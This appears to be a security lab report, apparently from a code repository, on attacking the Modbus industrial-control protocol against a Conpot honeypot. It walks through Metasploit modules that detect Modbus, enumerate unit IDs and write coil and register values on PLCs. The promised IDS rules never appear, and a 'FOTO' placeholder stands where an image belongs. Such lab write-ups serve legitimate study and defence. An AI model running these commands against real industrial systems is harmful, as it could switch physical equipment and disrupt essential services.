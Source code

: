 # Overview

In this report, we will focus on modbus, the most widely used SCADA/ICS protocol. We will use Honeypot as the target.<br>

This Report provides:

* Mitigation details for a vulnerability affecting the Galil RIO-47100 "Pocket PLC."
* Disclosure of exploit runs on ModBus protocol.
* Simulating an attack scenario against Scada Honeypot (Conpot)
* Modbus attack diagnostic functions in Wireshark
* Writing IDS rules to detect attack


***

# Vulnerability Overview

#### Improper Input Validation
 This module detects the Modbus service, tested on a SAIA PCD1.M2 system. Modbus is a clear text protocol used in common SCADA systems, developed originally as a serial-line (RS232) async protocol, and later transformed to IP, which is called ModbusTCP.
#### Vulnerability Details
This module allows reading and writing data to a PLC using the Modbus protocol. This module is based on the 'modiconstop.rb' Basecamp module from DigitalBond, as well as the mbtget perl script.

##### _Explotability_

This vulnerability could be exploited remotely.

##### _Existence of Exploit_

Known public exploits specifically target this vulnerability.

##### _Difficulty_

An attacker with a medium skill would be able to exploit this vulnerability.

## Affected Produtcs

--
## Impact

 This vulnerabilities other potential disastrous impacts of DoS attacks against SCADA/ICS systems include electrical blackouts, shutdown of water and sewage systems and other essential municipal services.

Impact to individual organizations depends on many factors that are unique to each organization.
***
# Exploitation of Vulnerability

 Metasploit has several modules specifically designed for the discovery and use of this most widely used protocol.
In order to see these modules, we will use the "search modbus" command after entering the console with the "msfconsole" command.

```sh
msfconsole
search modbus
```
The first module we will use as an exploit is the modbusdetect module. As it name implies, it is capable of detecting whether a site is running the modbus protocol. 
```sh
use auxilary/scanner/scada/modbusdetect 
```
We see the values we need to set with the "show options" command.
```sh
show options
exploit
```
This module only needs to set the destination's IP address to RHOST. The default port for Modbus is 502, so RPORT is set to 502 by default.

The destination ip is entered with the Set RHOSTS <IP-ADDRESS> command and the RHOSTS section is checked with the Show options command.
```sh
set RHOSTS <IP-address>
```
When we run this module, it goes to port 502 of the target system and sends a probe to determine if it is using modbus.
It confirms that our target is running modbus and we can now move on to our modbus-based discovery and exploit.

 We have confirmed that the target is actually running the modbus protocol, the next step is to enumerate the Unit ID's of the connected devices.

Modbus allows for up to 254 connected devices. To manipulate or communicate with any modbus device, we must have its UNIT ID, 
```sh
use auxilary/scanner/scanner/modbus_findunitid
set RHOST <IP Address>
exploit
```
This module finds the Each Unit ID of connected devices. These UNIT IDs are critical for reading and writing their data, as we will see later.

Our next modbus module is modbusclient. It enables us to read and write the data from both the coils and registers on these SCADA systems. 

```sh
 use auxiliary/scanner/scada/modbusclient
 show options
 ``` 
 This module requires several variables to be set. Most important is the ACTION. This variable can be set as;
- READ_REGISTERS
- WRITE_REGISTERS
- READ_COILS
- WRITE_COILS

 In SCADA/ICS terminology, coils are devices on the network that are either ON or OFF. Their settings are either 1 or 0.  By changing the values of a coil, you are switching it on or off.
 
 ```sh
 set ACTION WRITE_COIL
 set DATA 1
 set DATA_ADRESS <?>
 exploit
 ``` 
We can read the coils to check if the value has actually changed.
 ``` sh
set ACTION READ_COILS
 exploit
 ``` 
 
 To write the values in the registers
  ``` sh
set ACTION WRITE_REGISTERS
set DATA 27,27,27,27,27
  exploit
 ``` 
 To check to see whether the values have actually changed, we can change the ACTION to READ_REGISTERS.
   ``` sh
set ACTION READ_REGISTERS
exploit
 ``` 


***

# Packet Analysing
Run wireshark while exploit we’ve use running behind.
You see the blue part. This packet is the packet to the modbus protocol we want to analyze.
            FOTO
Double-clicking on the line will open the package content. 

***


## Conclusion
Many industrial systems can be accessed and controlled using Metasploit's simple modbus modules. In the wrong hands, this manipulation of coils and registers might lead to devastating results.
